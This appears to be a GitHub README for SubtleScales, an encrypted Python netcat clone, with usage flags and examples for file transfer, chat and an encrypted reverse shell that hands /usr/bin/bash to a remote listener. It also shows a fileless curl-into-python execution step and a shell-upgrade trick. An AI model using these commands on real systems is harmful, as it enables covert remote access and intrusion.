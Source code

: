 # SubtleScales

SubtleScales: A simple and encrypted version of Netcat written in vanilla Python.

## 1. Usage

```{bash}
subtlescales.py [-h] [-a ADDRESS] [-b MAX_BYTES] [-e COMMAND] [-l] [-p PORT] [-r] [-w]

A simple and encrypted version of Netcat written in vanilla Python.

optional arguments:
  -h, --help            show this help message and exit
  -a ADDRESS, --address ADDRESS
                        listener's IP address, ignored when -l is specified
  -b MAX_BYTES, --max-bytes MAX_BYTES
                        maximum number of bytes to process at once, defaults to 1024
  -e COMMAND, --execute COMMAND
                        execute a command locally and transmit over an encrypted channel
  -l, --listen          listen for incoming connections
  -p PORT, --port PORT  port to connect to or listen from, defaults to 8443
  -r, --read-only       read-only mode, only receive incoming data, invalid when -e is specified
  -w, --write-only      write-only mode, dont't expect incoming data
```

**Note**: It is possible to use without saving to disk as follows:

```{bash}
SubtleScales=$(curl -s https://raw.githubusercontent.com/rafagarci/subtlescales/main/subtlescales.py)
python -c "$SubtleScales" OPTIONS
```

## 2. Examples

### 2.1 Sending Files Through an Encrypted Channel

#### 2.1.1 Server

```{bash}
python subtlescales.py -rl > received_file
```

#### 2.1.2 Client

```{bash}
cat sent_file | python3 subtlescales.py -wa SERVER_IP_ADDRESS
```

### 2.2 Encrypted Reverse Shell

#### 2.2.1 Server

```{bash}
python subtlescales.py -l -b1
```

#### 2.2.2 Client

```{bash}
python subtlescales.py -b1 -e "/usr/bin/bash" -a SERVER_IP_ADDRESS
```

**Note**: Consider running the following in order to have a more natural shell experience.

```{bash}
CTRL + Z
stty raw -echo; fg
```

### 2.3 Basic Encrypted Chat Over a Network

#### 2.3.1 Server

```{bash}
python subtlescales.py -l
```

#### 2.3.2 Client

```{bash}
python subtlescales.py -a SERVER_IP_ADDRESS
```

## Considerations

- Encryption is based on the **anonymous** `AECDH-AES256-SHA` cipher suite, which limits connections to TLS 1.2.
- The `-e` option might behave unexpectedly depending on the implementation of the executed command.
- Tested on Linux only.
- [Other considerations](https://stackoverflow.com/questions/77788893/how-do-i-create-and-connect-anonymous-dh-tls-sockets-with-python-and-securely-au).

## License

GNU GPLv3 © Rafael García
